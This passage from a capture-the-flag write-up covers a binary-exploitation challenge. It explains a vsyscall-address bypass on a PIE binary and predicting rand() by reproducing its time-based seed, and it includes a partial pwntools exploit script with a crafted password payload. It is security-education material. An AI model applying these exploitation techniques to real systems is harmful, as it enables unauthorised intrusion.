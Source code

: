 ```
    seg000:FFFFFFFFFF60000A                 align 400h
    seg000:FFFFFFFFFF600400                 mov     rax, 0C9h
    seg000:FFFFFFFFFF600407                 syscall                 ; $!
    seg000:FFFFFFFFFF600409                 retn
    seg000:FFFFFFFFFF600409 ; ---------------------------------------------------------------------------
    seg000:FFFFFFFFFF60040A                 align 400h
    seg000:FFFFFFFFFF600800                 mov     rax, 135h
    seg000:FFFFFFFFFF600807                 syscall                 ; $!
    seg000:FFFFFFFFFF600809                 retn
    seg000:FFFFFFFFFF600809 ; ---------------------------------------------------------------------------
    seg000:FFFFFFFFFF60080A                 align 800h
    seg000:FFFFFFFFFF60080A seg000          ends
```

However, due to the detection mechanism for vsyscall, i.e code only being executed from the headers of these three system calls, one may not be able to choose any arbritrary syscall. We might be prompted with an error. This is also a kind of protection given for vsyscalls. Yet we understand that vsyscall is valuable when pie is enbaled. 

**Now that we have understood the concept behind use of vsyscall, in order to bypass the call on the buffer, we shall give a vsyscall segment address `0xffffffffff600000` and proceed to further checks.**

Once the call on buffer is bypassed, we see a check done on `v16` with the `res` returned from `pass_check`. Since a random value was being returned, now our task is to bypass the random number check. 

### rand() check:
Every time we call the rand() function, it returns a random number. This function is usually used to generate a sequence of random number. But this often gets inconvenient if you want to reproduce the same sequence, for that we set the seed-value before calling rand() function. So essentially you can reset the random sequence generator by setting the seed-value and calling the rand function again it will reproduce the same sequence. You can set the seed value using srand() function. 

This can be done using the ctypes library in python. A libc has also been provided for the same. Thus our script for bypassing rand() check can look something like this! 

```
# python2 

from pwn import *
from ctypes import CDLL

if __name__=="__main__":
	context.log_level="debug"
	
	p = process('./viserions_call', env={"LD_PRELOAD" : "./libc.so.6"})
	#p = remote('gc1.eng.run', 31459)
	libc = CDLL("libc.so.6")
	libc.srand(int(time.time()) & 0xffffff00)
	rand_val = libc.rand()

	gdb.attach(p, gdbscript='''b*main+95\n''')
	
	info("rand : %s"%rand_val)
	
	p.recvuntil('Name:\n')
	p.sendline('abcd')
	
	p.recvuntil('Password:\n')

	pay = b's3cur3_p4ssw0rd\x00'
	pay += b'\x00'*(0x1c - 8 - len(pay))
```